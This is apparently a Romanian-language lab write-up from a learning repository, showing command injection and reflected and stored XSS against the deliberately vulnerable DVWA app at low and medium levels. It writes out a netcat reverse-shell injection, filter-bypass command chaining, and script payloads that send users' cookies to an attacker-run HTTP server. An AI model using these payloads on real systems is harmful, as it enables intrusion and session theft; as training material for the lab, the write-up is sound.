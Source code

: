 ### Atac HTTP:
  - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md)
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - [Command Execution](https://github.com/Dani780-C/Cyber-security/edit/main/attacks/http_attack.md#command-execution)
    - [XSS reflected](https://github.com/Dani780-C/Cyber-security/edit/main/attacks/http_attack.md#xss-reflected)
    - [XSS stored](https://github.com/Dani780-C/Cyber-security/edit/main/attacks/http_attack.md#xss-stored)  
 
## **Command Execution**
   - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md)
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **XSS (Reflected)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**  
    
    **LOW**
      - Sursa codului PHP:

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_low.png)  
      
      Nu avem validare pe string-ul introdus de user. Putem folosi tag-ul `<script></script>` pentru a injecta cod.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
       
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_redirect_page_to_kali.png)  
      
    **MEDIUM**  
       - Sursa codului PHP:  

       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_source_code_medium_xss_reflected.png)  
       
       Urmatorul cod va scoate toate aparitiile string-ului `<script>` din input.  
       Pentru a putea injecta cod pentru a fi rulat, putem inlocui `<script>` cu `<SCRIPT>` sau `<script>` cu `<scr<script>ipt>`.  
       Spre exemplu, putem injecta: `<SCRIPT>alert(document.cookie)</script>` sau `<scr<script>ipt>alert(document.cookie)</script>`.  
       
       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_medium_hacked.png)  

## **XSS (Stored)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**

    **LOW**  
      - Sursa codului PHP:  

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_stored_xss_source_code_low.png)  
      
      Nu este nicio validare pe string-ul din form.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form in campul message `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
      Pe masina cu Windows 11, daca un user acceseaza pagina cu XSS stored, codul i se va executa si lui, iar pagina lui va fi redirectionata la `http://192.168.56.101:4444`.  
      
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_stored_windows11_cookie.png)  

